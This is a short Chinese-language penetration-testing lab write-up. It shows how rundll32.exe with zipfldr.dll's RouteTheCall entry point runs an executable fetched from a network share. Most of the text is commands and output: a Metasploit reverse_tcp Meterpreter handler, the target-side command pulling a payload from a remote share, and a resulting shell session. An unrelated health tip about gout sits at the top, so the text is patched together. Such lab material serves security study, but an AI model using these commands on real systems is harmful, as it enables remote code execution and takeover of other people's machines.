



注：请多喝点热水或者凉白开，可预防肾结石，通风等。 痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。
zipfldr.dll简介：
zipfldr.dll自Windows xp开始自带的zip文件压缩/解压工具组件。
说明：zipfldr.dll所在路径已被系统添加PATH环境变量中，因此，zipfldr.dll命令可识别，但由于为dll文件，需调用rundll32.exe来执行。
Windows 2003 默认位置：
C:\Windows\System32\zipfldr.dll
C:\Windows\SysWOW64\zipfldr.dll
Windows 7 默认位置：
C:\Windows\System32\zipfldr.dll
C:\Windows\SysWOW64\zipfldr.dll
攻击机：
192.168.1.4 Debian
靶机：
192.168.1.3 Windows 7
192.168.1.3 Windows 2003
配置攻击机msf：
msf exploit(multi/handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.1.4 yes The listen address (an interface may be specified)
LPORT 53 yes The listen port
Exploit target:
Id Name
‐‐ ‐‐‐‐
0 Wildcard Target
msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.1.4:53

靶机执行：
rundll32.exe zipfldr.dll,RouteTheCall \\192.168.1.119\share\rev_x86_53_exe.exe

msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.3
[*] Meterpreter session 7 opened (192.168.1.4:53 ‐> 192.168.1.3:5245) at
2019‐01‐21 04:55:44 ‐0500
meterpreter > getuid
Server username: John‐PC\John
meterpreter > getpid
Current pid: 6988

Micropoor